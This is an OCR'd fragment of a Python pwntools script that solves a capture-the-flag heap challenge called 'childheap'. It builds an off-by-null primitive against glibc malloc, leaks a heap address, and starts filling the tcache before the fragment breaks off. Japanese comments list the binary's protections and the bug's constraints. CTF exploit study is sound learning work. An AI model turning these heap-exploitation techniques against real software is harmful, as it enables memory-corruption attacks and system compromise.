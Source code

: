 ```python
    select(s, 2)
    s.recvuntil(b"[y/n] ")
    s.sendline(b"y")


def wipe(s):
    select(s, 3)


def show(s):
    select(s, 2)
    s.recvuntil(b"Content: '")
    ret = s.recvuntil(b"'")[:-1]
    s.recvuntil(b"[y/n] ")
    s.sendline(b"n")

    return ret


# make chunk whose size is 0x100
def obn(s, size):
    alloc(s, 0x18)
    delete(s)
    wipe(s)
    alloc(s, size)
    delete(s)
    wipe(s)
    # off-by-null
    alloc(s, 0x18, b"a" * 0x18)
    wipe(s)
    alloc(s, size)


if __name__ == "__main__":
    """
        Arch:     amd64-64-little
        RELRO:    Full RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      PIE enabled
    """
    """
        - 2.29 (だが2.31で解いてる)
        - 可変サイズmalloc (<= 0x180)
        - ポインタ1つ(wipeしなければ生きている)
        - off-by-null(但しサイズ最大まで書き込まなくてはならない)
    """
    s = process("./childheap")
    libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

    # heap leak
    alloc(s, 0xf8)
    delete(s)
    wipe(s)

    obn(s, 0x108)
    delete(s)
    leak = u64(show(s).ljust(8, b"\x00")) # perthreadを除く中で一番上にある
    print(hex(leak))
    wipe(s)

    # fill tcache
    for _ in range(5):
```